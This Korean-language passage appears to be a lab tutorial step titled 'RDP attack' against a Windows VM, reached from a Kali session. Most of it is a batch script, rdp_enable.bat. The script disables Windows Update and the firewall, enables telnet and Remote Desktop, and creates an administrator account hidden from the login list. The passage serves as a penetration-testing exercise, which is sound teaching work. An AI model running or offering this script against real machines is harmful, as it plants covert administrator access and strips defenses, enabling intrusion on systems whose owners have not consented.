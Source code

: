 우선 windows #1 기준으로 한다.

시작하기 전에 <span style="background-color: #fff5b1">windows #1의 스냅샷을 찍고 시작한다</span>.

<br>

## Step4. RDP 공격

---

### RDP 스크립트 준비

RDP를 사용하기 위해서는 사용자가 <span style="background-color: #fff5b1">Remote Desktop Users 그룹</span>에 있어야 한다.

이를 위한 작업은 rdp_enable.bat이 실행을 하는 것 이다.

칼리에서 윈도우 세션을 얻은 상태에서 plink를 활성화 해줄 것 이다.

이를 위해서는 rdp_enable.bat파일이 필요하다.

> rdp_enable.bat

```batch
@echo off

REM ****************
REM Disable off "AUTO UPDATE"
REM ****************
sc config wuauserv start= disabled
net stop wuauserv

REM ****************
REM Disable windows xp Firewall
REM ****************
netsh firewall set opmode disable

REM ****************
REM Enable TELNET
REM ****************
sc config tlntsvr start= auto
net start telnet

REM ****************
REM Enable Remote Desktop
REM ****************
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

REM ***************
REM Create a HIDDEN USER usr= hack007, pass= dani
REM ***************
net user hacker007 dani /add
net localgroup "Administrators" /add hacker007
net localgroup "Users" /del hacker007
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v hacker007 /t REG_DWORD /d 0 /f
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\policies\system /v dontdisplaylastusername /t REG_DWORD /d 1 /f
```
